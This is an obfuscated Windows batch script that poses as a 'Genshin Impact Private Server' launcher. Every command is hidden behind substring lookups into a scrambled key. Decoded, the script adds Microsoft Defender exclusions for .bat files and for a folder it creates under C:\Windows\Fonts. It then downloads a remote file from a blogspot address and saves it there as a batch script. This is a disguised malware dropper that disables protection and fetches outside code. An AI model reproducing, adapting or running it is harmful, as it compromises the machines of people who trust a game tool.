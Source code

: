 Set Keyp=fq17D6Juv4WNBswgV9jAlKcdTmFyO3HUtzLk0InrpRPZC2bxShYoEQG5X8aMie
@%Keyp:~61,1%%Keyp:~22,1%%Keyp:~49,1%%Keyp:~51,1% %Keyp:~51,1%%Keyp:~0,1%%Keyp:~0,1% 
%Keyp:~32,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~20,1%%Keyp:~61,1% %Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~60,1%%Keyp:~25,1%%Keyp:~40,1%%Keyp:~58,1%%Keyp:~22,1%%Keyp:~32,1% %Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1% %Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1% 
%Keyp:~44,1%%Keyp:~51,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~39,1% %Keyp:~36,1%%Keyp:~45,1%
%Keyp:~25,1%%Keyp:~51,1%%Keyp:~23,1%%Keyp:~61,1% %Keyp:~22,1%%Keyp:~51,1%%Keyp:~38,1%:%Keyp:~22,1%%Keyp:~51,1%%Keyp:~20,1%%Keyp:~13,1%=%Keyp:~55,1%%Keyp:~2,1% %Keyp:~20,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~61,1%%Keyp:~13,1%=%Keyp:~2,1%%Keyp:~45,1%
%Keyp:~22,1%%Keyp:~20,1%%Keyp:~13,1%
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~42,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~44,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% %Keyp:~19,1%%Keyp:~23,1%%Keyp:~23,1%-%Keyp:~59,1%%Keyp:~40,1%%Keyp:~42,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~0,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~22,1%%Keyp:~61,1% -%Keyp:~52,1%%Keyp:~47,1%%Keyp:~22,1%%Keyp:~20,1%%Keyp:~7,1%%Keyp:~13,1%%Keyp:~60,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~52,1%%Keyp:~47,1%%Keyp:~32,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~60,1%%Keyp:~51,1%%Keyp:~38,1% ".%Keyp:~46,1%%Keyp:~58,1%%Keyp:~32,1%"
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~42,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~44,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% %Keyp:~19,1%%Keyp:~23,1%%Keyp:~23,1%-%Keyp:~59,1%%Keyp:~40,1%%Keyp:~42,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~0,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~22,1%%Keyp:~61,1% -%Keyp:~52,1%%Keyp:~47,1%%Keyp:~22,1%%Keyp:~20,1%%Keyp:~7,1%%Keyp:~13,1%%Keyp:~60,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~42,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~49,1% "%Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~26,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~13,1%\%Keyp:~58,1%%Keyp:~40,1%%Keyp:~40,1%"
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~25,1%%Keyp:~23,1% %Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~26,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~13,1%\%Keyp:~58,1%%Keyp:~40,1%%Keyp:~40,1%
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~25,1%%Keyp:~23,1% %Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~26,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~13,1%\%Keyp:~58,1%%Keyp:~40,1%%Keyp:~40,1%\%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%
%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~46,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1% /%Keyp:~25,1%%Keyp:~60,1%%Keyp:~38,1% %Keyp:~22,1%%Keyp:~25,1%%Keyp:~23,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% /%Keyp:~22,1% %Keyp:~22,1%%Keyp:~7,1%%Keyp:~39,1%%Keyp:~20,1% %Keyp:~49,1%%Keyp:~32,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~13,1%://%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%%Keyp:~58,1%%Keyp:~20,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~51,1%.%Keyp:~46,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~15,1%%Keyp:~13,1%%Keyp:~40,1%%Keyp:~51,1%%Keyp:~32,1%.%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%/%Keyp:~58,1%%Keyp:~23,1%%Keyp:~13,1%.%Keyp:~32,1%%Keyp:~47,1%%Keyp:~32,1% --%Keyp:~51,1%%Keyp:~7,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~7,1%%Keyp:~32,1% %Keyp:~44,1%:\%Keyp:~10,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~23,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~13,1%\%Keyp:~26,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~13,1%\%Keyp:~58,1%%Keyp:~40,1%%Keyp:~40,1%\%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%_%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%.%Keyp:~46,1%%Keyp:~58,1%%Keyp:~32,1%